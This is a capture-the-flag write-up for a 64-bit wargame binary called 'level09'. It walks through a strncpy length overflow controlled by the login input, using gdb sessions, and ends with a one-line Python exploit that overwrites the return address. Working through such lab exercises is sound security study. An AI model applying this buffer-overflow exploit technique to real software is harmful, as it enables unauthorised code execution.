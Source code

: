 # level09
!! The binary is 64 bits !!  
The program waits for two inputs: `login` and `msg`

## Step 1: Understand the program

The two inputs are enter using `fgets`. Then the two inputs are stored in an other locations using two methods:

#### Login input:
The first 41 bytes are stored in a static buffer at `login + 140`

#### Message input:
The second input is copied into a buffer `msg` using `strncpy`. The lenght of the copy is the value stored at the `login[180]`.


## Vulnerability
The `41th bytes` of the `login` input (login + 180) is the length of the `strncpy`. So, we can change the size of `strncpy` of `msg` through the `login` input.

## Go deeper:
Once `set_msg` is called
```console
(gdb) b *set_msg
(gdb) b *set_msg+153
(gdb) r
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) x/s $rsp+148
0x7fffffffe55c:	 'A' <repeats 41 times>
```

- buffer `login` is at `0x7fffffffe55c`
- size is 41 whereas I entered more characters. (it's the relocation)
---
```console
(gdb) c
>: Msg @Unix-Dude
>>: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
(gdb) x/s 0x7fffffffe55c-140
0x7fffffffe4d0:	 'C' <repeats 65 times>
```

Good : the second input has been copied in the buffer `msg` at `0x7fffffffe4d0` with the size __65__.

> 'A' == 65 in decimal

## Step 3: Try to segfault

By setting the maximal size to `strncpy` (256). we will try to segfault the program.

```console
(gdb) c
Continuing.
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

We don't where the program crashed.

it segfault at offset 200

## Step 4:

## Exploit
```bash
(python -c 'print("a" * 40 + "\xff" + "\n" + 200 * "b" + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; cat) | /home/users/level09/level09
```